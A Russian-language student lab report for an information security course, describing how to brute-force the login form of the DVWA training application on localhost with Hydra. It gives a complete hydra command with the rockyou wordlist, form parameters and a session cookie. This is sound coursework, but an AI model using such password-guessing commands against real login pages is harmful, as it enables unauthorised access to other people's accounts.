




# **Отчет по третьему этапу проекта**
## **Common information**
discipline: Основы информационной безопасности  
group: НПМбд-02-21  
author: Ханина Людмила Константиновна
---
---
## **Цель работы**

Приобретение практических навыков по использованию инструмента Hydra для брутфорса (подбора) паролей.

## **Выполнение работы**

1. Для перебора пароля нам нужен файл, их содержащий. Откроем в браузере приложение DVWA.


2. Форма для взлома располагается в разделе Brute Force:


3. В форме имеются два тега input с атрибутами name, равными 'username' и 'password' соответственно.


4. Воспользуемся утилитой hydra, введя следующую команду:
```
hydra -l admin -P ~/Downloads/rockyou.txt -s 80 localhost http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=impossible; PHPSESSID=drk309iac84vp@ausojum74n4g: F=Username and/or password incorrect."

```


5. Утилита подобрала пожходящий пароль. Введем его в соответствующее поле и успешно авторизуемcя:


## **Вывод**

В ходе выполнения третьего этапа проекта я приобрела практический навык по использованию инструмента Hydra для подбора паролей.
